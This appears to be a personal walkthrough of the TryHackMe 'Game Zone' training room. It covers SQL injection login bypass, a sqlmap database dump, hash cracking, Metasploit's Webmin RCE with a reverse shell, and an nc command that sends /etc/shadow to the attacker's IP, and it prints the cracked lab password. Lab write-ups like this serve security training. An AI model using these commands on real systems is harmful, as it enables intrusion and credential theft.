*2021-08-29*

*kimm3*

# Walkthrough: Game Zone
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/gamezone)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup


```
script history/enum1
export IP=10.10.10.58
ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`





Index at port 80.

## Checking for SQLi vulnerabilities
### SQLi login
Using `' or 1=1 -- -` in both username and password field, works and redirects us to the 'portal.php' page.



### sqlmap on portal page
From here we can try for more sqli vulnerabilities with sqlmap. Copy the request made form a serch in the 'portal.php'(I copied headers and data from firefox).

`sqlmap -r research/requestportal.txt | tee scans/sqlmap-portal`



`sqlmap -r research/requestportal.txt --is-dba --dbs --hostname | tee scans/sqlmap-portal-dbenum`



`sqlmap -r research/requestportal.txt -D db --dump | tee scans/sqlmap-portal-db-dump`



### Cracking the pass
```
hashid creds/agent47hash
hashcat -a 0 -m 1400 creds/agent47hash sl/Passwords/Leaked-Databases/rockyou.txt
```


## Foothold
SSH with the user and cracked password works.







The TCP 10000 didn't show up on the nmap scan, might be blocked form access outside. Use SSH port forwarding to make it visible to our local machine.

`ssh -L 10000:localhost:10000 agent47@10.10.10.58`

This exposes a webmin login page.




We can now scan the port with nmap, pointing it to our local machine port 10000.

`sudo nmap localhost -p 10000 -sC -sV -Pn -n -oA scans/nmap-p10000`





A msf RCE module exists for this version.



The agent47 and password works to login.


## Privilege Escalation
```
script history/target3
msfconsole
search 2012-2982
use 0
info
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS localhost
set LHOST 10.8.210.115
show payloads
set payload 5
```

Played around with differend payloads, number 5(reverse unix) worked.


## Post Exploitation
Downloading the shadow file with password hashes.

```
nc -w 3 10.8.210.115 4243 < /etc/shadow
```
